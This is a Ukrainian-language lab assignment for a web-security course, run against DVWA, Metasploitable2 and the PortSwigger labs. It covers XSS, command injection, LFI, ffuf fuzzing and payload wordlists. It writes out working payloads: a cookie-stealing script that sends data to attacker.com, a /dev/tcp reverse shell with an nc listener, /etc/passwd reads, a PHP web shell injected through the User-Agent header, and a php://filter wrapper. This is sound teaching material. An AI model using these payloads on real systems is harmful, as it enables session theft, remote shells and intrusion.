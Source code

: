 # 🛡️ Lab 3: XSS, RCE, LFI, ffuf та словники (PayloadsAllTheThings, SecLists)

## 📘 Середовище для виконання
- **Metasploitable2** + **DVWA (Damn Vulnerable Web Application)**
- **PortSwigger Web Security Academy** (https://portswigger.net/web-security)

---

## 📚 Теми

### 1. Cross-Site Scripting (XSS)

#### 🎯 Завдання на DVWA:
1. Перейдіть до розділу **DVWA → XSS (Reflected)**:
   - Використайте прості payload-и: `<script>alert(1)</script>`.
   - Обхід фільтрів: `"><script>alert('XSS')</script>`, `javascript:alert(1)`.

2. Перейдіть до **XSS (Stored)**:
   - Спробуйте вставити XSS у повідомлення коментарів або гостьову книгу.
   - Тестування зловмисного JavaScript для крадіжки cookie:
     ```html
     <script>new Image().src="http://attacker.com/log?c="+document.cookie</script>
     ```
   - Результат - отримані cookie у себе на webhook. [interactsh](https://app.interactsh.com/#/)

#### 🧪 PortSwigger Labs:
- [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected)
- [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)
- Спробуйте пройти хоча б **3 лаби по XSS**.

---

### 2. Remote Code Execution (RCE)

#### 🎯 Завдання на DVWA:
1. Перейдіть до **DVWA → Command Injection**:
   - Введіть `127.0.0.1; whoami` і досліджуйте вивід.
   - Інші корисні команди: `id`, `uname -a`, `cat /etc/passwd`.
   - Спробуйте підключення зворотного шелу:
     ```bash
     127.0.0.1; bash -i >& /dev/tcp/YOUR_IP/4444 0>&1
     ```

2. Підніміть слухач:
   ```bash
   nc -lvnp 4444
   ```

#### 🧪 PortSwigger Labs:
- [OS command injection](https://portswigger.net/web-security/os-command-injection)

---

### 3. Ffuf (Fuzz Faster U Fool)

#### 🛠 Завдання:
1. Проскануйте доступні директорії:
   ```bash
   ffuf -u http://<DVWA-IP>/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
   ```

2. Сканування параметрів:
   ```bash
   ffuf -u http://<DVWA-IP>/index.php?FUZZ=test -w /usr/share/seclists/Discovery/Web-Content/{}.txt
   ```
---

### 4. Словники: PayloadsAllTheThings + SecLists

#### 📁 Практика:
- Вивчіть структуру словників у:
  - `Seclists/`
  - `PayloadsAllTheThings`

- Використайте наступні словники:
  - `XSS`: `/PayloadsAllTheThings/XSS Injection/`
  - `RCE`: `/PayloadsAllTheThings/Command Injection/`
  - `Brute-force`: `/SecLists/Passwords/Leaked-Databases/rockyou.txt`

---

### 5. Local File Inclusion (LFI) / Path Traversal

#### 🎯 Завдання на DVWA:
1. Перейдіть до розділу **DVWA → File Inclusion**:
   - Введіть `../../../../etc/passwd` у параметр файлу.
   - Протестуйте подвійне кодування: `%252e%252e%252fetc%252fpasswd`.
   - Пошукайте інші файли, наприклад:
     - `/proc/self/environ`
     - `/var/log/apache2/access.log`

2. Спроба інжекції з логів (працює не завжди і не всюди - один із варіантів векторів для атаки):
   - Вставте шкідливий User-Agent у заголовок:
     ```bash
     curl -A "<?php system($_GET['cmd']); ?>" http://<DVWA-IP>/
     ```
   - Потім зверніться до `/var/log/apache2/access.log?cmd=id`
   
3. Спробувати атаки через PHP Wrapper (якщо сервер має фільтрацію LFI)
   - Введіть `php://filter/convert.base64-encode/resource=../../../../../etc/passwd` у параметр файлу.
   - Отримаємо вивід даних у кодуванні base64

#### 🧪 PortSwigger Labs:
- [File path traversal vulnerabilities](https://portswigger.net/web-security/file-path-traversal)
- Виконайте хоча б **2 лаби**, включаючи LFI до sensitive files.

---

## 📌 Звітність:
Для кожного завдання:
- Надішліть скріншоти payload'ів та результатів.
- Поясніть, що саме відбулось.
- Якщо були труднощі — коротко опишіть їх.

---

✅ **Рекомендація**: Виконуйте завдання в режимі **Medium** або **High** складності DVWA, якщо вже ознайомлені з логікою на Low.


